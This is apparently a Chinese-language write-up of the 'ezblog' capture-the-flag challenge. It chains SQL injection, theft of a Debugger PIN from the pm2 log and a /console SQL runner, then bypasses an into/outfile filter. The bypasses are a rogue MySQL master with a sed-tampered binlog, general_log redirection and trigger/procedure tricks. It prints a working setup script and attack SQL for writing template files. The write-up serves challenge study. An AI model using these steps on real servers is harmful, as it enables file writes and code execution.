

# ezblog

## 题目简述

题目是 TypeScript/Node.js 博客服务，核心链路由 SQL 注入、调试控制台认证和 MySQL/MariaDB 文件写入组成。`/post/:id/edit` 对 `id` 的类型和字符检查不严，导致可构造 SQL 注入读取 pm2 日志中的 Debugger PIN；拿到 PIN 后可以登录 `/console`，执行受限 SQL 并加载 `.ejs` 模板。最终目标是在过滤 `into|outfile|dumpfile` 的条件下写入可执行模板并读取 flag。

## 解题过程

题目有两个思路：一个是 `db` 攻击思路，另一个是 `pm2` 攻击思路。

### 预期解法

1. 题目附带了 TypeScript 源码。

	`TypeScript` 中关于 `/post/:id/edit` 的注释有误导性：`getPostById(id: number)` 的参数标注为 `number`，但实际并未阻止后端把 `string` 转成 `any` 后再当作 `number` 处理，最终 `id` 仍可能是字符串，导致 SQL 注入。对 `id` 是否为字母数字的检查也不完整，只检查了是否包含数字。

2. 从源码和 `dockerfile` 可以看到服务使用 `pm2` 运行，并提供 `/console` 路由；该路由需要通过 stdout 中打印的 PIN 码认证（类似 Flask）。

	pm2 会将 stdout/stderr 写入日志文件，默认的 stdout 日志文件是 `~/.pm2/logs/main-out.log`。这里通过 SQL 注入的 `load_file()` 读取 Debugger PIN。

	> `dockerfile` 会调用 `pm2 logs`，启动容器后可直接看到 pm2 日志文件名：
	>
	> ```
	> docker-ezblogapp-1  | /home/ezblog/.pm2/logs/main-error.log last 15 lines:
	> docker-ezblogapp-1  | /home/ezblog/.pm2/logs/main-out.log last 15 lines:
	> docker-ezblogapp-1  | 0|main     |  * Serving Express app 'ezblog'
	> docker-ezblogapp-1  | 0|main     |  * Debug mode: on
	> docker-ezblogapp-1  | 0|main     |  * Running on http://0.0.0.0:3000/ (Press CTRL+C to quit)
	> docker-ezblogapp-1  | 0|main     |
	> docker-ezblogapp-1  | 0|main     |  * Debugger is active!
	> docker-ezblogapp-1  | 0|main     |  * Debugger PIN: e249afc4-5ecd-4ea8-a05a-ec8af975c92e
	> ```

3. `/console` 可加载任意已有的 `.ejs` 模板，并可执行任意 SQL 语句（不含 `into|outfile|dumpfile` 过滤字样）。

	预期解法是通过 `select 'exp' into outfile` 写入新的 `.ejs` 模板并加载它，再借助 MySQL replication 和 binlog 执行 `select`，从而绕过 `into|outfile|dumpfile` 的过滤。

	MariaDB 本身不记录 `select` 到 binlog；且题目环境中的 MariaDB Service 在重编译时移除了 `trigger`、`function`、`procedure` 关键字，但这些关键字仍可被用来承载包含 `select into outfile` 的语句。

4. 搭建一个自有的 MySQL 主从复现环境（rogue master）：

	在自己的 VPS 上安装 MySQL，修改配置启用 binlog，将 binlog 格式设置为 statement、校验和设为 none，开启 replication（server id）、创建复制用户并启动 MySQL。运行一条足够长的 SQL 后停止 MySQL，修改 binlog 文件，将该长 SQL 替换为长度一致的 `select into outfile`，再启动 MySQL。参考 `exp_docker/exp.sh`。

	如果复制主机未开启 binlog checksum，那么从库不会校验这部分内容。

	MariaDB 10.2.1 之前版本默认未启用 binlog checksum（本题环境是 MariaDB 10.9.8）。

	MySQL 在各版本中默认都会开启 binlog checksum。

	MariaDB 文档中 `binlog_checksum` 的关键点是：该变量决定 binary log event 是否带校验和，关闭后从库不会按校验和拒绝被修改过的 binlog event。MySQL 文档中 `binlog-checksum` 的关键点是：MySQL 各版本通常默认启用 CRC32 校验，因此手工改 binlog 时必须显式关闭，否则复制链路会因校验失败而中断。参考链接保留如下：

	- https://mariadb.com/kb/en/replication-and-binary-log-system-variables/#binlog_checksum
	- https://dev.mysql.com/doc/refman/8.0/en/replication-options-binary-log.html#option_mysqld_binlog-checksum

	MariaDB 重编译后缺失的关键词和 `mysql.*` 表，并不会影响其作为从库（replication slave）的能力。

	脚本所用镜像为 `dasctfbase/web_php73_apache_mysql`，内部 MySQL 版本为 5.7.29，不同版本的 MySQL 也可复现。

	> 
	>
	> 修改 binlog 文件可直接用 `sed`：将任意足够长的 SQL 替换为同长度的 `select` 语句，并确保 binlog checksum 已关闭。
	>
	> ```bash
	> #!/bin/bash -e
	> 
	> service mysql start
	> 
	> mysql -uroot -proot -e "CREATE USER 'admin'@'%' IDENTIFIED BY '123456';"
	> mysql -uroot -proot -e "GRANT REPLICATION SLAVE ON *.* TO 'admin'@'%';"
	> 
	> service mysql stop
	> 
	> echo 'server_id = 2' >> /etc/mysql/mysql.conf.d/mysqld.cnf
	> echo 'log-bin = mysql-bin' >> /etc/mysql/mysql.conf.d/mysqld.cnf
	> echo 'binlog_checksum = NONE' >> /etc/mysql/mysql.conf.d/mysqld.cnf
	> echo 'binlog_format = STATEMENT' >> /etc/mysql/mysql.conf.d/mysqld.cnf
	> echo 'master_verify_checksum = OFF' >> /etc/mysql/mysql.conf.d/mysqld.cnf
	> echo 'secure_file_priv = ' >> /etc/mysql/mysql.conf.d/mysqld.cnf
	> sed -i 's/bind-address\t= 127.0.0.1/bind-address = 0.0.0.0/g' /etc/mysql/mysql.conf.d/mysqld.cnf
	> rm /var/lib/mysql/auto.cnf
	> 
	> service mysql start
	> 
	> mysql -uroot -proot -e "CREATE DATABASE if not exists AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_520_ci"
	> 
	> service mysql stop
	> 
	> sed -i 's/CREATE DATABASE if not exists AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_520_ci/a SAME LENGTH select statement/g' /var/lib/mysql/mysql-bin.000001
	> 
	> service mysql start
	> ```
	>
	> 

5. 使用 `change master to ...` 与 `start slave` 启动复制从库，随后从 binlog 中执行 `select into outfile` 写入 `.ejs` 模板文件。

	加载该模板文件并读取 flag。


### 非预期解法 - 利用 general_log 写入已有文件

对已有模板文件使用 `general_log` 触发写入。

`general_log` 与 `slow_query_log` 在由 MySQL 创建时默认权限通常为 `660`，但对已存在文件追加写入时不会更改其文件权限（不同版本行为可能不同：例如 MySQL 5.7.29 下 slow_query_log 为 666，general_log 为 640）。

将 `general_log` 写入 `/home/ezblog/views/post.ejs` 后，该文件可被 Node.js 读取。

该题目环境的 MariaDB 因缺少关键字未执行 `mysql_install_db`，`mysql.general_log` 表缺失，可手动创建。

```
create database mysql;
CREATE TABLE mysql.`general_log` (
  `event_time` timestamp(6) NOT NULL DEFAULT current_timestamp(6) ON UPDATE current_timestamp(6),
  `user_host` mediumtext NOT NULL,
  `thread_id` bigint(21) unsigned NOT NULL,
  `server_id` int(10) unsigned NOT NULL,
  `command_type` varchar(64) NOT NULL,
  `argument` mediumtext NOT NULL
) ENGINE=CSV DEFAULT CHARSET=utf8mb3 COLLATE=utf8mb3_general_ci COMMENT='General log';
set global general_log=1;
set global general_log_file='/home/ezblog/views/post.ejs';
select 'exp';
```


### 修订后的非预期解法 1 - 利用 trigger/function/procedure 复制

`trigger`、`function`、`procedure` 可用于存储 `select` 语句（仅作说明）。

在复制主库上创建对应对象，再通过复制同步到题目环境并调用。

此解法在当前题目环境中不可行，原因是关键字被移除，即使走复制也会报语法错误（`trigger...` 位置）。

> 在真实环境下该解法仍有成立可能。

```
#Execute these commands on the replication master
#trigger
create database a;use a;
create table a(id int) engine='memory';
create trigger t before insert on a.a for each row select 1 into outfile '/tmp/trigger';
insert into a values(114);

#procedure
DELIMITER //
CREATE PROCEDURE exp()
BEGIN
SELECT 1 into outfile '/tmp/procedure';

END //

call exp();

#function
DELIMITER //
CREATE function exp()
RETURNS CHAR(50) DETERMINISTIC
BEGIN
SELECT 1 into outfile '/tmp/function';
return('2');

END //

select exp();
```

### 修订后的非预期解法 2 - 插入 mysql.proc

向 `mysql.proc` 插入记录可创建存储过程和函数。

`INTO` 过滤可在复制链路中绕过。

当前环境移除了 `FUNCTION`、`CALL` 关键字后该解法不可用（存储过程必须通过 `CALL` 执行；存储函数可插入但调用时仍会报错）。



## 方法总结

- 核心技巧：用 SQL 注入读取 pm2 日志中的 Debugger PIN，再通过调试控制台执行 SQL，最后借助复制链路或日志文件写入模板。
- 识别信号：Node/pm2 服务开启调试控制台、PIN 打到 stdout、数据库可 `load_file()` 读日志、SQL 执行过滤了 `into/outfile` 但仍允许复制相关语句时，应考虑 rogue master/binlog 绕过。
- 复用要点：外部 MySQL/MariaDB 文档的关键不是链接本身，而是 `binlog_checksum` 对“手工篡改 binlog 后能否复制执行”的影响；写 WP 时要保留这个条件。
